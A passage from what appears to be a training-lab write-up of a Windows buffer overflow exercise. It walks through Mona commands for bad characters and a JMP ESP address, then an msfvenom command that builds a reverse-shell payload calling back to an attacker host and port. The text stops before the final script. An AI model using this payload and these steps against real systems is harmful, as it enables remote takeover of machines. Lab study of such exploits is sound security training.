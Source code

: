 Run exploit.py, then look in Immunity to check value of ESP:

![bofprep-634-ESP](/assets/images/2021-03-11-22-50-21.png)

Use Mona to check for bad characters:

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 0175FA30
```

Check output to see which ones we need to exclude:

![bofprep-compare-badchars](/assets/images/2021-03-11-22-53-58.png)

Repeat until we find all bad characters:

![bofprep-found-badchars](/assets/images/2021-03-11-22-57-50.png)

We have them all, now find JMP ESP:

```text
!mona jmp -r esp -cpb  "\x00\x23\x3c\x83\xba"
```

We find from this the address of ESP is 625011AF. Change to Little Endian:

```text
625011AF <==> \xaf\x11\x50\x62
```

Generate a new MSFVenom payload with the bad characters excluded:

```text
root@kali:/home/kali/thm/bofprep# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.19 LPORT=1234 -b '\x00\x23\x3c\x83\xba' EXITFUNC=thread -f python -v payload
```

Now assemble final script:
